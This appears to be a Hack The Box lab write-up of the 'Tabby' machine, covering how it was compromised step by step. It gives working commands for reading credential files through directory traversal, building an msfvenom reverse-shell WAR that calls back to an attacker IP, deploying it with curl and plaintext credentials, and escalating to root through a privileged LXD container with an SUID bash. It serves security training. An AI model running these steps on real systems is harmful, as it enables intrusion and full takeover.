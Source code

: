```yaml
---
layout: post
title:  "HTB Writeup [Linux - Easy] - Tabby"
published: false
---
```


![](/assets/Tabby/Tabby.png)

## Summary
- **Tabby** is a **linux** machine hosting both **Apache web server** and **Tomcat**.
- The website on port 80 had a **Directory Traversal vulnerability** which enabled us to **read a tomcat configuration file** that **contained valid credentials.**
- *Using those,* we **get a user with enough privileges to upload a WAR file containing a reverse shell**. *And, with that*, we **access the box** as the `tomcat` user.
- We find an **encrypted backup archive in the webroot**. We **crack it** with `john` to **get a password.**
- The password was *being reused* by another user on the box (`ash`). And, he happened to be **a member of the `lxd` group.**
- We **escalate our privileges** to `root` by **creating a specially-configured container**.

---

## NMAP
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`nmap` gives us areas to check: the **website on port 80** and the **Tomcat instance on port 8080**

## Port 80
The home page here was mostly **static content**.

![](/assets/Tabby/homepage-port-80.jpg)

*except for* the **link for the "News" page.**

note: *on the link below*, notice *how the host name changed* to **"megahosting.htb"**

![](/assets/Tabby/virtual-host-routing.jpg)

an entry in our `/etc/hosts` should take care of this **Virtual Host Routing**

```
10.10.10.194 megahosting.htb
```

we also notice that `news.php` handles **a parameter** called `file`. this looks like a **file inclusion vulnerability.**

![](/assets/Tabby/lfi-spotted.jpg)

trying `/etc/passwd` in the parameter doesn't work.

but going **4 directories back** with `../../../../` gets us the **confirmation** we need.

![](/assets/Tabby/lfi-confirmed.jpg)

*after a couple of tries to get the path right,* we are able to **retrieve the source code** of the `news.php` file:

![](/assets/Tabby/news-php-src-code.jpg)

the `fopen` function here makes this a **Directory/Path Traversal vulnerability** and **not a Local File Inclusion.**

that's because `fopen` just **reads a file's contents**. it **doesn't evaluate PHP code** like `include` or `require`

***Knowing this bit spares us the effort of trying to get code execution by including PHP.***

## Reading sensitive files
*As a quick check,* I try to read the `ash` user's **private SSH key** from `/home/ash/.ssh/id_rsa`. But it's *not that easy* :)

I then think "maybe I should check out the tomcat to avoid any rabbit holes". In case there's something to be found there.

![](/assets/Tabby/tomcat-homepage.jpg)

We get some **decent information** from this page. the **webroot** and **where Tomcat is installed.**

*But, when it comes to sensitive files,* there's **a very important one** called `tomcat-users.xml`. it's in `/usr/share/tomcat9/etc/` by default.

*When checking,* it's there!

and we get **creds for a user** with **very nice privileges** :]

![](/assets/Tabby/reading-tomcat-users-xml.jpg)

## Exploiting the manager-script tomcat role to get RCE
The `manager-script` role has access to **upload WAR files.**

which can be a **reverse shell** generated using `msfvenom`. we do that

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.3 lport=9000 -f war -o revvy.war
```

![](/assets/Tabby/creating-a-war-file.jpg)

and follow with **uploading the WAR file** using `curl`

```bash
curl -v -u tomcat:'$3cureP4s5w0rd123!' -T revvy.war "http://tabby:8080/manager/text/deploy?path=/shell&update=true"
```

start up a `netcat` listener on port 9000

```bash
nc -lvnp 9000
```

and `curl` the endpoint for our reverse shell

```bash
curl http://tabby:8080/shell
```

![](/assets/Tabby/shell-as-tomcat.jpg)

we're in as `tomcat` :)

## Pivoting through Password Reuse

*Right after improving my shell,* I start with **checking the files** in `/var/www/html`

there's a folder called `files`. It contained a **password-protected zip archive** that's ***owned by*** the `ash` user.

![](/assets/Tabby/finding-ashes-zip-file.jpg)

we **transfer it over** to our kali using `netcat` so we can **crack** it

```bash
# on the victim
nc -lvnp 5000 < 16162020_backup.zip
# on the attacker
nc tabby 5000 > ash_backup.zip
```

*and, to verify that the file wasn't corrupted in-transit,* we do a quick **integrity check** using `md5sum`.

![](/assets/Tabby/transferring-zip-file.jpg)

we use `zip2john` to **get a hash** for `john` to crack

![](/assets/Tabby/zip-password.jpg)

it successfully cracked. but we *didn't find anything important* after unzipping the archive :/

![](/assets/Tabby/zip-files.jpg)

the files were *practically the same* as the original ones.

*But, since we now had a password,* we tried it against `ash` and `root`

didn't work with `root`, but **did** with `ash` :)

![](/assets/Tabby/logged-in-as-ash.jpg)

## LXD Privilege Escalation
*As you may have noticed from the previous image,* `ash` is part of the `lxd` group

![](/assets/Tabby/lxd-group-membership.jpg)

this is *almost exactly the same situation* as in the [Brainfuck Privesc](https://omnisl4sh.github.io/2022/08/17/Brainfuck.html#lxd-privilege-escalation).

one *minor difference* is that **we have to initialize the LX daemon** with `lxd init` before importing the image.

note: also make sure to add `/snap/bin` to the `PATH` environment variable as *it's not there by default.*

```bash
export PATH=$PATH:/snap/bin/
```

![](/assets/Tabby/lxd-init.jpg)

*for a bit of automation,* we're going to throw the commands in a **bash script**. here are the contents:

```bash
#!/bin/bash
lxc image import alpine-small-image.tar.gz --alias myimage
lxc image list
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

*after getting the container root shell,* we add an **SUID bit** to the host's **bash shell** so we can run it as `root`

```bash
chmod +s /mnt/root/bin/bash
```

![](/assets/Tabby/lxc-root-bash-script.jpg)

## Cleaning Up

*To clear out any remnants,* we have to **stop the container**, **delete it** along with **the image we imported.**

```bash
lxc stop mycontainer
lxc delete mycontainer
lxc image delete myimage
```

![](/assets/Tabby/lxc-cleanup.jpg)